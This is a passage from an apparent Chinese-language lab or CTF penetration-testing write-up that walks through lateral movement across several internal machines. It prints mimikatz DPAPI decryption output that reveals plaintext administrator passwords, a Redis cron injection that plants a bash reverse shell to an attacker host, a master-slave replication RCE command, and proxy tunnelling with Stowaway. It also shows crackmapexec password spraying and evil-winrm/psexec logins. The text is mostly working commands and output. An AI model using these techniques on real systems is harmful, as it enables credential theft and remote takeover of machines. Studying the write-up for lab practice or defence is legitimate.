  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=TERMSRV/172.32.50.33
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : WIN-BVAJO3C2D90\administrator
  CredentialBlob : cs1ab@2025uw
  Attributes     : 0

mimikatz(commandline) # exit
Bye!
```

解出来一个假的........

### 系统账户systemprofile的凭据

后面又翻了一下文章

发现这个路径下还有一个文件

```
C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F7A11901B817E047275D06BDB5BAF712
```

#### 获取guidMasterKey

通过密码文件获取guidMasterKey的值

选择密码文件，使用mimikatz对其文件进行解密，并记录下guidMasterKey的值

```
mimikatz.exe "dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F7A11901B817E047275D06BDB5BAF712" "exit"
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F7A11901B817E047275D06BDB5BAF712
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {9ffb8fdd-ee67-46e6-a0b5-acaa65d37581}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000012 - 18
  szDescription      : 本地凭据数据


  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : 4e1952d6346616f2ef0a6046a44898e7b5a3417b8b78f75990a1b4451dbfa22f
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 258528d4bd236caf85e6ad3ee24dbe1ef9f9b5bdb401d7720ef9fabd3c1f1762
  dwDataLen          : 00000130 - 304
  pbData             : 1010d19c67b49201b45f130aec9f40b92403675829f8b5a8ecdb992a67b5e0399d090b730b0d3907f6192bd5cebf178ae368106b8dc4e01de53bffb4563bf8fddc4ec48d50c43e44d9ef6a981a075861aff158be88b57b221f180824c45576f78b4d3bea2c99314b5fc8fc8e341697633f5c26d7f414cd4f32858eb4e04a9b187bbd72dc60245a539a54aa9b240e1bd058c0549905f86c350ee9e2321e7131daaf5a22fd403293005dfd50174c6078fcd976940ac67f4f073cbebffe6575792bd1bbb42cc20791eca74694322946ba63eb5dd9ac47d2c920a0e33859e8390d23a7716f8f497a81a8be9e014c68b36d275d183f77b1c03d0d64ef0df66360051eae6d8260aa7c560c695a69ca79d1edad68f5a69e08167ea8d2655aee9705048ca87fbaf718daaef81a185adf1e2e4ac4
  dwSignLen          : 00000040 - 64
  pbSign             : 0874f55c3cbbdf04328ea8282f1ecacd86470cda0496354c75fa4de53e872407e35e09ad8215b39b47d51dc84fe42b7e21168e3473f6f9b77441b28a12c9381c


mimikatz(commandline) # exit
Bye!
```

guidMasterKey的值为：{9ffb8fdd-ee67-46e6-a0b5-acaa65d37581}

需要记下这个guidMasterKey的值

根据guidMasterKey找到对应Masterkey

根据guidMasterKey，使用mimikatz找到对应的Masterkey

#### 获取Masterkey

前面有

```
d66ec675b7789d8c929b9d887b63b8cdcdb0607b0ef6af226865964125c83e31608db9a7495a126ed80f04f854a4ff3c1393da53fe64e1080b2b10e2d933ee38
```

#### 解密获取明文

通过MasterKey，使用mimikatz解密pbData数据，获取RDP连接明文密码

得到

```
.#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F7A11901B817E047275D06BDB5BAF712 /masterkey:d66ec675b7789d8c929b9d887b63b8cdcdb0607b0ef6af226865964125c83e31608db9a7495a126ed80f04f854a4ff3c1393da53fe64e1080b2b10e2d933ee38
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {9ffb8fdd-ee67-46e6-a0b5-acaa65d37581}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000012 - 18
  szDescription      : 本地凭据数据


  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : 4e1952d6346616f2ef0a6046a44898e7b5a3417b8b78f75990a1b4451dbfa22f
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 258528d4bd236caf85e6ad3ee24dbe1ef9f9b5bdb401d7720ef9fabd3c1f1762
  dwDataLen          : 00000130 - 304
  pbData             : 1010d19c67b49201b45f130aec9f40b92403675829f8b5a8ecdb992a67b5e0399d090b730b0d3907f6192bd5cebf178ae368106b8dc4e01de53bffb4563bf8fddc4ec48d50c43e44d9ef6a981a075861aff158be88b57b221f180824c45576f78b4d3bea2c99314b5fc8fc8e341697633f5c26d7f414cd4f32858eb4e04a9b187bbd72dc60245a539a54aa9b240e1bd058c0549905f86c350ee9e2321e7131daaf5a22fd403293005dfd50174c6078fcd976940ac67f4f073cbebffe6575792bd1bbb42cc20791eca74694322946ba63eb5dd9ac47d2c920a0e33859e8390d23a7716f8f497a81a8be9e014c68b36d275d183f77b1c03d0d64ef0df66360051eae6d8260aa7c560c695a69ca79d1edad68f5a69e08167ea8d2655aee9705048ca87fbaf718daaef81a185adf1e2e4ac4
  dwSignLen          : 00000040 - 64
  pbSign             : 0874f55c3cbbdf04328ea8282f1ecacd86470cda0496354c75fa4de53e872407e35e09ad8215b39b47d51dc84fe42b7e21168e3473f6f9b77441b28a12c9381c

Decrypting Credential:
 * masterkey     : d66ec675b7789d8c929b9d887b63b8cdcdb0607b0ef6af226865964125c83e31608db9a7495a126ed80f04f854a4ff3c1393da53fe64e1080b2b10e2d933ee38
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 0000012c - 300
  credUnk0       : 00004004 - 16388

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 2025/1/24 12:43:57
  unkFlagsOrSize : 00000020 - 32
  Persist        : 00000002 - 2 - local_machine
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:batch=TaskScheduler:Task:{84B3F92A-75B0-4C56-92E5-388FED61D693}
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : WIN-BVAJO3C2D90\Administrator
  CredentialBlob : Lmxcms@cslab!
  Attributes     : 0

mimikatz(commandline) # exit
Bye!
```

这回终于对了......

利用C盘下的远程连接免密登录Administrator用户，成功登录172.32.50.33



问AI这两个路径指向的是存储在Windows操作系统中的凭据文件的位置。这些文件用于存储用户的认证信息，以便于自动登录或其他需要身份验证的服务。

1. C:UsersAdministratorAppDataLocalMicrosoftCredentialsF18D03964B3469BAEA4542A7792D663B:

* 这个路径指向的是特定用户（在这个例子中是Administrator账户）的凭据文件夹。每个用户账户都有自己独立的AppData文件夹，用于存放该用户的个性化设置、临时文件以及凭据等数据。

2. C:WindowsSystem32configsystemprofileAppDataLocalMicrosoftCredentialsF7A11901B817E047275D06BDB5BAF712:

* 这个路径涉及到的是系统账户（systemprofile）下的凭据文件。System账户是Windows内部使用的一个特殊账户，用于运行操作系统级别的服务和进程。这个位置下的凭据通常与系统级的服务或应用相关联，而非个人用户的应用。

区别：

* 主要区别在于它们所属的账户不同。第一个路径属于一个具体的用户账户（Administrator），而第二个路径属于系统的内部账户（systemprofile）。因此，它们各自保存的数据和用途也不同。
* 用户账户下的凭据可能涉及个人应用的登录信息等，而系统账户下的凭据则更可能涉及需要高权限的服务或操作系统的内部功能相关的认证信息。

关闭Defender



# 第四台机器

## 第二层内网信息收集

```
10.0.0.56:6379 open
10.0.0.65:445 open
10.0.0.23:445 open
10.0.0.65:139 open
10.0.0.23:139 open
10.0.0.65:135 open
10.0.0.23:135 open
10.0.0.56:22 open
[+] NetInfo:
[*]10.0.0.65
   [->]WIN-QVNDHCLPR7Q
   [->]172.32.50.33
   [->]10.0.0.65
[+] NetInfo:
[*]10.0.0.23
   [->]WIN-QVNDHCLPR7Q
   [->]10.0.0.23
[+] Redis:10.0.0.56:6379 admin123 file:/var/www/redis/dump.rdb
[+] Redis:10.0.0.56:6379 like can write /var/spool/cron/
```

## Redis弱口令

```
┌──(root㉿penetration)-[/mnt/c/Windows/system32]
└─# proxychains redis-cli -h 10.0.0.56 -a admin123
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
[proxychains] Dynamic chain  ...  172.16.233.2:2000  ...  172.16.233.2:2001  ...  10.0.0.56:6379  ...  OK
10.0.0.56:6379> keys
(error) ERR wrong number of arguments for 'keys' command
10.0.0.56:6379> info
# Server
redis_version:5.0.5
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:8380966eb8bcccf
redis_mode:standalone
os:Linux 3.10.0-1160.el7.x86_64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:4.8.5
process_id:890
run_id:3c911a7f308b06e9e71853a779814560df1c65b0
tcp_port:6379
uptime_in_seconds:6224
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:11898444
executable:/var/www/redis/src/redis-server
config_file:/var/www/redis/redis.conf

# Clients
connected_clients:7
client_recent_max_input_buffer:4
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:980680
used_memory_human:957.70K
used_memory_rss:4132864
used_memory_rss_human:3.94M
used_memory_peak:980680
used_memory_peak_human:957.70K
used_memory_peak_perc:100.10%
used_memory_overhead:943738
used_memory_startup:792400
used_memory_dataset:36942
used_memory_dataset_perc:19.62%
allocator_allocated:1493208
allocator_active:1912832
allocator_resident:10842112
total_system_memory:510574592
total_system_memory_human:486.92M
used_memory_lua:37888
used_memory_lua_human:37.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.28
allocator_frag_bytes:419624
allocator_rss_ratio:5.67
allocator_rss_bytes:8929280
rss_overhead_ratio:0.38
rss_overhead_bytes:-6709248
mem_fragmentation_ratio:4.40
mem_fragmentation_bytes:3194184
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:151226
mem_aof_buffer:0
mem_allocator:jemalloc-5.1.0
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:2
rdb_bgsave_in_progress:0
rdb_last_save_time:1739951290
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:0
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:425984
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:20
total_commands_processed:80
instantaneous_ops_per_sec:0
total_net_input_bytes:5300
total_net_output_bytes:33168
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:153
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:d52e3672080c119016eec0e70a3090a2d56f426f
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:3.122739
used_cpu_user:3.156036
used_cpu_sys_children:0.002731
used_cpu_user_children:0.000927

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=2,expires=0,avg_ttl=0
```

根据fscan扫描的结果，可以打定时任务，但是看了版本也可以打主从复制

上传nc到第三台的windows机器上

使用mdut和liqun工具箱写定时任务都没反弹成功，然后手动写一个

<https://www.cnblogs.com/miruier/p/14497405.html>

#### 定时任务

```
10.0.0.56:6379> config set dir /root/.ssh/
(error) ERR Changing directory: No such file or directory
10.0.0.56:6379> config set dir /var/spool/cron/
OK
10.0.0.56:6379> config set dbfilename root
OK
10.0.0.56:6379> set shell "

*/1 * * * * /bin/bash -i>&/dev/tcp/10.0.0.65/6677 0>&1

"
OK
10.0.0.56:6379> save
OK
```



就反弹成功了



#### 主从复制

Asy0y0师傅打法是主从复制RCE，需要想办法在Redis上加载恶意动态链接库，需要启动一个靶机能连通的服务器，这里用172.32.50.33Windows机器做跳板

传个Python安装包，在靶机上安装Python，利用RabR打主从复制，该工具不需要任何外部库就可以执行

<https://github.com/0671/RabR>

```
python redis-attack.py -r 10.0.0.56 -L 10.0.0.65 -b
```

#### SSH公钥替换

这里一开始是写不进去的，靶机没得.ssh，后面拿到shell上去写一个公钥（这里没啥用，拿到shell也就结束了后面没东西）




# 第五台机器

前面扫描端口感觉能利用的只有445和5985，因为这不是域环境，又没web，估计只能爆密码了.....

按照前面的打法先解一下两个文件的明文密码

这里没有Administrator账户凭据

## 系统账户systemprofile的凭据

```
C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\E8B27029CEB02525493CC6576845F257
```

省略中间的步骤



得到cyberstrike@2024

然后试了一下不对。

根据提示密码qwe开头用grep过滤

```
grep '^qwe' 1.txt > 2.txt
```

<https://blog.csdn.net/2301_77766925/article/details/141626965>


## stowaway搭建二层代理

### 第一层

攻击机

```
windows_admin.exe -l 172.16.233.2:9000 -s 123
```

目标机

```
windows_x64_agent.exe -c 172.16.233.2:9000 -s 123 --reconnect 8
```

### 第二层

攻击机

```
(node 0) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 9000
```

目标机

```
windows_agent.exe -c 172.32.50.22:9000 -s 123 --reconnect 8
```


## 密码喷洒

```
proxychains -q crackmapexec smb 10.0.0.23 -u Administrator -p ./2.txt --continue-on-success
```


爆出密码为qwe!@#123

## evil-winrm

```
proxychains evil-winrm -i 10.0.0.23 -u Administrator -p 'qwe!@#123'
```


## psexec

```
proxychains -q python3 psexec.py Administrator@10.0.0.23
```


